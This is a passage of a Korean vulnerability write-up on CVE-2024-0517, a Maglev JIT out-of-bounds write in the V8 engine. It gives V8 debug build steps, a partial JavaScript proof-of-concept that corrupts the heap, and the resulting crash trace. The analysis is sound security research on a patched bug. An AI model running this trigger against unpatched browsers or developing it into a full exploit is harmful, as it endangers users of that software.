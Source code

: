 ```python
./build/install-build-deps.sh
gn gen out/debug --args='v8_no_inline=true v8_optimized_debug=false is_component_build=false v8_expose_memory_corruption_api=true'
ninja -C out/debug d8
./tools/dev/gm.py x64.release

# install gdb plugin
echo 'source ~/v8/tools/gdbinit' >> ~/.gdbinit
```

## 취약점 분석

### Proof of Concept

이제 이번 CVE-2024-0517으로 패치된 취약점에 대해 분석할 것입니다.

이번 취약점은 v8엔진의 JIT 컴파일러 중 하나인 maglev가 최적화한 코드를 실행하면서 발생합니다. 이 코드 중 자식 생성자가 객체를 생성할 때, 초기화 되지 않은 Current_raw_allocation 값으로 인해, 객체의 OOB write가 발생합니다.

아래의 JavaScript 코드는 이번 취약점을 실행시키는 코드 중 일부입니다. PoC코드를 실행하면, 다음과 같은 에러가 나옵니다. 해당 에러는 free-space라는 곳을 무언가가 덮어서, 그것을 확인하게 되었을 때, Fatal error 및 프로그램을 종료시키게 됩니다.

해당 코드와 오류 메시지는 다음과 같습니다 :

```jsx
class ClassParent {}
class ClassBug extends ClassParent {
        constructor(a20, a21, a22) {
                const v24 = new new.target();
                let x = [empty_object, empty_object, empty_object, empty_object, empty_object, empty_object, empty_object, empty_object];
                super();
                let a = [1.1];
                this.x = x;
                this.a = a;
                JSON.stringify(empty_array);
        }
        [1] = dogc();
}
```

```jsx
~/v8/out$ ./debug/d8 --allow-natives-syntax ./code/exploit.js

#
# Fatal error in ../../src/objects/free-space-inl.h, line 75
# Check failed: !heap->deserialization_complete() || map_slot().contains_map_value(free_space_map.ptr()).
#
#
#
#FailureMessage Object: 0x7ffe9d485188
==== C stack trace ===============================

    ./debug/d8(v8::base::debug::StackTrace::StackTrace()+0x1e) [0x5b9ae47a7fde]
    ./debug/d8(+0x8c0960d) [0x5b9ae47a260d]
    ./debug/d8(V8_Fatal(char const*, int, char const*, ...)+0x1ac) [0x5b9ae477853c]
    ./debug/d8(v8::internal::FreeSpace::IsValid() const+0xdf) [0x5b9ae0e79e1f]
    ./debug/d8(v8::internal::FreeSpace::next() const+0x1d) [0x5b9ae0e789dd]
[truncated]
```
